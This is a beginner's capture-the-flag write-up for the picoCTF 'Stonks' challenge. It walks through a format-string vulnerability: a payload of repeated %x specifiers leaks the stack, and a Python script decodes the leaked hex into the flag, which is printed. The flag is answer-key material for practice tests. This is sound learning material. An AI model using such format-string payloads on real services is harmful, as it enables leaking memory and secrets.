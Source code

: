 # Stonks

### Disclaimer:
This is my first ctf within the pwn category. Therefore I used another writeup by [Abraxus](https://ctftime.org/user/100246) on CTFtime.org (Link to writeup: https://ctftime.org/writeup/28935) for own learning.

### Task description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

### So we begin

1. We open file, connect in our shell and read hint to see where to look for our flag. 

  What we see is that our flag is in a separate file on the server and is beaing read and stored in the variable ```api_buf```.

  ![Code snippet of filestream being read into variable in memory](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/our_flag_stored_in_variable.png)

  This means:
  - Our flag is stored in a local variable in the so called "stack" (inside memory)

  We also know:
  - printf() function can print out stuff from the stack, and not only normal stuff, we can make it print out our flag if there is code that lets us do it.

  Therefore, we take a look at the hint once more. 

  ![Hint says: Okay, maybe I'd believe you if you find my API key.](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/hint.png)

  And we find the snippet that gets input from the user:

  ![Code snippet of functions that stores user input in variable, and print the exact variable right back to us](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/bingo.png)

  Bingo! We found the vulnerability that we want to exploit to get our flag.

  What we see:
  - scanf() function that reads whatever you write into the buffer, and stores it into a variable called ```user_buf```
  - printf() function that writes your exact input, right back at us.

  What we know (or should know):
  - %s print out strings, %i print out int AND MOST IMPORTANT %x print out hexadecimal.
  - printf can print out all the data in our stack by requesting it, using a bunch of format specifiers (i.e %s, %c, %f etc.)(dont know what this consept is called)

  And THIS IS GOOD, because:
  - If we, instead of sending a "API token" as it requests, we send a string constisting of many %x, we will then make the process that runs on the server, **to print out whatever is stored in the stack**, which is in this case our flag. (use hiphens in between because our variable ```user_buf``` is a char pointer and not a string)

  Our input:

  ```text
  %x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
  ```

  2. Copy and paste into your shell:

  !["What is your API token?" written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/what_is_your_api_token.png)

  Then we see the data being printed back to us!

  ![Data from the stack written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/buying_stonks_with_token.png)

  Now we see we cant read it, but we can format it by making a small program.

  We use the following program provided in the other writeup by Abraxus.

  Our output:

  ```
  9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440
  ``` 

  3. Copy and paste your output into the variable ```ourEncodedFlag```

  ```python
  #Output that we got from the server
ourEncodedFlag = "9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440"

#The string we will store our flag in
s = ""

#Iterating through each hex value in ourEncodedFlag
for i in ourEncodedFlag.split('-'):

    #If the length of the string is 8, we know it is valid hex value that stores a character
    if len(i) == 8:
        a = bytearray.fromhex(i)

        #Iterating through each byte in the bytearray and reversing it because of endianness
        for b in reversed(a):

            #If the byte is a valid ascii character, we add it to our string
            if b > 32 and b < 128:
                s += chr(b)


print(s)    #output: qpicoCTF{I_l05t_4ll_my_m0n3y_6045d60d}J@t
  ```

  4. Copy the python code above and run it
   
  This gives us - in our case - the flag:

  ```
  picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
  ```

  **NB!** The flag can differ depending on which instance (which port) you are connecting to. (i.e 20195 is my port: nc mercury.picoctf.net 20195)

    
